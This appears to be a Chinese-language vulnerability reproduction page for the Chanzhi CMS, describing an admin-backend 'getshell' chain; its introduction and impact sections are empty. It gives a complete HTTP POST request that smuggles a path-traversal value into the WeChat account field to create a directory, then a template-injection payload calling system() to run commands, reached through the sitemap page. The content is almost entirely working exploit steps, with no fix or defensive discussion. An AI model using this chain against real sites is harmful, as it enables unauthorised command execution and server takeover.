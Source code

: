 禅知 后台getshell
=================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

后台存在模板编辑，但是如果保存的话需要创建一个/system\\tmp\\xjrg.txt文件，那么我们找到一个可以创建任意文件的地方就

![](./resource/禅知后台getshell/media/rId24.png)

在/system/module/wechat/model.php

![](./resource/禅知后台getshell/media/rId25.png)

\$qrcodeFile未过滤目录穿越导致可以去其他地方创建文件夹通过微信设置原始ID的地方写入穿越的文件路径

![](./resource/禅知后台getshell/media/rId26.png)

    POST /chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1 HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Referer: http://localhost/chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1
    Content-Length: 120
    Cookie: adminsid=ae8tu3s80j8cfvh2hkgu41bbig; adminLang=zh-cn; adminDevice=desktop; theme=default; currentGroup=setting; frontsid=eaa0tdicbqfq0lurm89t3n9fvn; frontLang=zh-cn; frontDevice=desktop
    X-Forwarded-For: 8.8.8.8
    Connection: close

    type=subscribe&name=123&account=..%2F..%2F..%2Fsystem%5Ctmp%5Cxjrg.txt%5C1&appID=789&appSecret=100&token=222&certified=0

点一下二维码，再随便传一张图片，可以看到创建了一个xjrg.txt文件夹

![](./resource/禅知后台getshell/media/rId27.png)

现在我们再去编辑模板，{!echo(system(\'ipconfig\'))},可以直接写入一句话

![](./resource/禅知后台getshell/media/rId28.png)

然后在访问前台

http:/0-sec.org/chanzhieps/www/index.php/sitemap/

![](./resource/禅知后台getshell/media/rId29.png)
